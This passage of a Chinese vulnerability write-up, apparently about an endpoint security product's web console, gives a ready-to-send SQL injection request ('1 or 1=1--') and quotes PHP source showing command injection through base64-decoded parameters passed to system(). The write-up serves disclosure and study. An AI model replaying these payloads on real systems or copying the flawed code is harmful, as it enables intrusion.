 复现显示如果成功的话software_list字段回显数据，失败该字段为空：

```http
POST /inter/update_software_info.php HTTP/1.1
Host: x.x.x.x
Content-Length: 16
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: SCNum=1; GUID=BB419A33-46DA-E7F9-EC4C-28A84310E5EE; SCIP=192.168.65.132; topSC=0; kidtype=1; hid=B29D21EF; sn=105000-011000-000000-000000; SKYLARa0aede9e785feabae789c6e03d=nq482l70id4vuiou5ojfpo1654
Connection: close

type=1+or+1=1--+
```

#### 6. /inter/pdf_maker.php 命令注入

`inter/pdf_maker.php` 页面`url`和`filename`参数需要base64编码后传入，传入后未进行完整的命令注入过滤。默认情况下进入if第一分支，原因见官方注释`apache 2.4 php 7 版本只能bat中运行`，但默认运行版本为php 5.4.43.

```php
<?php
require_once (dirname(__FILE__)."\\common\\HTTPrequest_SCpost.php");
......
	$url = $_POST["url"];
	$fileName =  $_POST["fileName"];
	$batName=$fileName;
	if ($url == null || $fileName == null)
	{
......
	}
	
	$url = base64_decode($url);
	$nameStr = base64_decode($fileName).date("Y-m-d").".pdf";
	$fileName="..\\htmltopdf\\".$nameStr;

	system('mkdir ..\\htmltopdf');

	
	$cmd = '..\\..\\wkhtmltopdf.exe "'.$url.'" '.$fileName;
	if (getApacheVersion()>=24) { //apache 2.4 php 7 版本 只能在  bat中运行
		$cmd =" del ".$fileName;

		exec($cmd);
		$url_= str_replace('%','%%', $url);
		$cmd = '..\\..\\wkhtmltopdf.exe "'.$url_.'" '.$fileName;
		$batName ="exec_wkhtmltopdf.bat";
		$myfile = fopen($batName , "w");
		//$cmd =iconv("UTF-8", "gbk", $cmd );
		fwrite($myfile, $cmd);
		fclose($myfile);
		$cmd =$batName ;
		exec($cmd);
		$cmd =" del ".$batName;
		exec($cmd);
    }else
    {
		system($cmd);
```